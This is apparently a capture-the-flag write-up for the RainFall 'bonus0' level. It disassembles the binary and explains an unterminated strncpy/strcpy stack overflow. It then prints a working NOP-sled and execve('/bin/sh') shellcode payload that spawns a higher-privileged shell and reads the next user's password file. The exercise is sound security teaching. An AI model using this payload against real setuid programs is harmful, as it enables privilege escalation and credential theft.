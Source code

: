 ```sh
bonus0@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 bonus0 bonus0   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 bonus0 bonus0  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 bonus0 bonus0 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 bonus1 users  5566 Mar  6  2016 bonus0
-rw-r--r--+ 1 bonus0 bonus0   65 Sep 23  2015 .pass
-rw-r--r--  1 bonus0 bonus0  675 Apr  3  2012 .profile
bonus0@RainFall:~$ ./bonus0
 -
4
 -
2
4 2
bonus0@RainFall:~$ ./bonus0 42
 -
42
 -
42
42 42
```
There is one excutable file **bonus0**, it takes standard input twice, and print them with a space. \
\
Run the binary file with GDB.
```sh
(gdb) disas p
Dump of assembler code for function p:
   0x080484b4 <+0>:     push   %ebp
   0x080484b5 <+1>:     mov    %esp,%ebp
   0x080484b7 <+3>:     sub    $0x1018,%esp # 4120
   0x080484bd <+9>:     mov    0xc(%ebp),%eax
   0x080484c0 <+12>:    mov    %eax,(%esp)
   0x080484c3 <+15>:    call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:    movl   $0x1000,0x8(%esp) # size = 4096
   0x080484d0 <+28>:    lea    -0x1008(%ebp),%eax
   0x080484d6 <+34>:    mov    %eax,0x4(%esp) # buffer[4096]
   0x080484da <+38>:    movl   $0x0,(%esp) # 0 standard input
   0x080484e1 <+45>:    call   0x8048380 <read@plt> # read(fd, buffer, size);
   0x080484e6 <+50>:    movl   $0xa,0x4(%esp) # '\n'
   0x080484ee <+58>:    lea    -0x1008(%ebp),%eax
   0x080484f4 <+64>:    mov    %eax,(%esp)
   0x080484f7 <+67>:    call   0x80483d0 <strchr@plt> # strchr(buffer, '\n');
   0x080484fc <+72>:    movb   $0x0,(%eax)
   0x080484ff <+75>:    lea    -0x1008(%ebp),%eax
   0x08048505 <+81>:    movl   $0x14,0x8(%esp) # 20
   0x0804850d <+89>:    mov    %eax,0x4(%esp) # buffer
   0x08048511 <+93>:    mov    0x8(%ebp),%eax
   0x08048514 <+96>:    mov    %eax,(%esp) # second parameter
   0x08048517 <+99>:    call   0x80483f0 <strncpy@plt> # strncpy(char *dest, const char *src, 20);
   0x0804851c <+104>:   leave  
   0x0804851d <+105>:   ret    
End of assembler dump.
```
```sh
(gdb) disas pp
Dump of assembler code for function pp:
   0x0804851e <+0>:     push   %ebp
   0x0804851f <+1>:     mov    %esp,%ebp
   0x08048521 <+3>:     push   %edi
   0x08048522 <+4>:     push   %ebx
   0x08048523 <+5>:     sub    $0x50,%esp
   0x08048526 <+8>:     movl   $0x80486a0,0x4(%esp) # 2 param " - "
   0x0804852e <+16>:    lea    -0x30(%ebp),%eax # 0x30 = 48 = 4(변수) + 20(크기)
   0x08048531 <+19>:    mov    %eax,(%esp) # 1 param 20 sized buffe
   0x08048534 <+22>:    call   0x80484b4 <p> # call p(buffer[20], " - ")
   0x08048539 <+27>:    movl   $0x80486a0,0x4(%esp) # 2 param " - "
   0x08048541 <+35>:    lea    -0x1c(%ebp),%eax # 1 param 20 sized buffer 0x30 - 0x1c = 0x14 = 20
   0x08048544 <+38>:    mov    %eax,(%esp)
   0x08048547 <+41>:    call   0x80484b4 <p> # call p(buffer[20], " - ")
   0x0804854c <+46>:    lea    -0x30(%ebp),%eax
   0x0804854f <+49>:    mov    %eax,0x4(%esp) # pp function's 2 parameter
   0x08048553 <+53>:    mov    0x8(%ebp),%eax 
   0x08048556 <+56>:    mov    %eax,(%esp) # pp function's 1 parameter
   0x08048559 <+59>:    call   0x80483a0 <strcpy@plt> # strcpy(1 parameter, 2 parameter)
   0x0804855e <+64>:    mov    $0x80486a4,%ebx # 0x80486a4 = " "
   0x08048563 <+69>:    mov    0x8(%ebp),%eax
   0x08048566 <+72>:    movl   $0xffffffff,-0x3c(%ebp) # 0xffffffff = -1
   0x0804856d <+79>:    mov    %eax,%edx
   0x0804856f <+81>:    mov    $0x0,%eax
   0x08048574 <+86>:    mov    -0x3c(%ebp),%ecx # ecx = -1
   0x08048577 <+89>:    mov    %edx,%edi
   0x08048579 <+91>:    repnz scas %es:(%edi),%al # strlen(const char *s);
   0x0804857b <+93>:    mov    %ecx,%eax
   0x0804857d <+95>:    not    %eax
   0x0804857f <+97>:    sub    $0x1,%eax
   0x08048582 <+100>:   add    0x8(%ebp),%eax
   0x08048585 <+103>:   movzwl (%ebx),%edx
   0x08048588 <+106>:   mov    %dx,(%eax)
   0x0804858b <+109>:   lea    -0x1c(%ebp),%eax
   0x0804858e <+112>:   mov    %eax,0x4(%esp)
   0x08048592 <+116>:   mov    0x8(%ebp),%eax
   0x08048595 <+119>:   mov    %eax,(%esp)
   0x08048598 <+122>:   call   0x8048390 <strcat@plt>
   0x0804859d <+127>:   add    $0x50,%esp
   0x080485a0 <+130>:   pop    %ebx
   0x080485a1 <+131>:   pop    %edi
   0x080485a2 <+132>:   pop    %ebp
   0x080485a3 <+133>:   ret    
End of assembler dump.
```
```sh
(gdb) disas main
Dump of assembler code for function main:
   0x080485a4 <+0>:     push   %ebp
   0x080485a5 <+1>:     mov    %esp,%ebp
   0x080485a7 <+3>:     and    $0xfffffff0,%esp
   0x080485aa <+6>:     sub    $0x40,%esp
   0x080485ad <+9>:     lea    0x16(%esp),%eax
   0x080485b1 <+13>:    mov    %eax,(%esp)
   0x080485b4 <+16>:    call   0x804851e <pp>
   0x080485b9 <+21>:    lea    0x16(%esp),%eax
   0x080485bd <+25>:    mov    %eax,(%esp)
   0x080485c0 <+28>:    call   0x80483b0 <puts@plt>
   0x080485c5 <+33>:    mov    $0x0,%eax
   0x080485ca <+38>:    leave  
   0x080485cb <+39>:    ret    
End of assembler dump.
```
After we look code we can find main function calling pp function with calls p function then recieves input from user with read() to the buffer with size of 4096. \
But function p returns string given by the result of function strncpy() that cuts input by 20 bytes, without checking the proper null termination. \

Then inside function pp it saves into buffer sized 42 the result of p, which is not guaranteed with null termination. \
Here we can find buffer overflow vulnerability and try to manipulate the code flow. \

So let's find out where exactly the overflow happens by checking the value of EIP. \
```sh
(gdb) r
Starting program: /home/user/bonus0/bonus0 
 - 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 - 
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB��� BBBBBBBBBBBBBBBBBBBB���

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```
We can see EIP overflows from second standard input, we continue to find offset,
```sh
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/bonus0/bonus0 
 - 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 - 
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab
AAAAAAAAAAAAAAAAAAAAaa0aa1aa2aa3aa4aa5aa��� aa0aa1aa2aa3aa4aa5aa���

Program received signal SIGSEGV, Segmentation fault.
0x61336161 in ?? ()

Enter the hex value to find (e.g., 0x63613563): 0x61336161
Little Endian ASCII representation: 'aa3a'
'aa3a' found at offset: 9
```
So the offset is 9, which means by overwriting data from 9'th position we can insert our address to change the program's flow. \
The address we want is start address of buffer, which stores our input (```buffer[4096]```). \
\
Since we have 2 variables with size of 20 bytes and the function ```strcpy``` that uses ```strlen``` will not find null termination in our string, we can try to overwrite buffer and put our shellcode in the overwriteable position, which can be calculated by:
```text
(a[20] + b[20]) + 1 + b[20] = 61 bytes
```
But one thing to remember is we have to set first 61 bytes with ```NOP``` to make CPU able skip those addresses until it can find our shell code. \
So it will something like:
```sh
"\x90" * 61 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```
Now, how do we make program run this shell code block? \
First we have to find the start address of buffer
```sh
...
0x080484c8 <+20>:    movl   $0x1000,0x8(%esp)
0x080484d0 <+28>:    lea    -0x1008(%ebp),%eax
...
(gdb) x $ebp - 0x1000 # start address of buffer[4096]
0xbfffe688:     0x00000000
```
With address we found ```0xbfffe688``` we have to add ```61``` bytes to point start of NOP sequence which will finally lead to our shell code
```text
0xbfffe688 + 61 	NOP
0xbfffe688 + ??		NOP
0xbfffe688 + ??		SHELLCODE
```
```sh
(python -c 'print "\x90" * 61 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\xc5\xe6\xff\xbf" + "B" * 7'; cat) | ./bonus0
whoami
bonus1
cat /home/user/bonus1/.pass
(hidden)
```
bonus0 passed !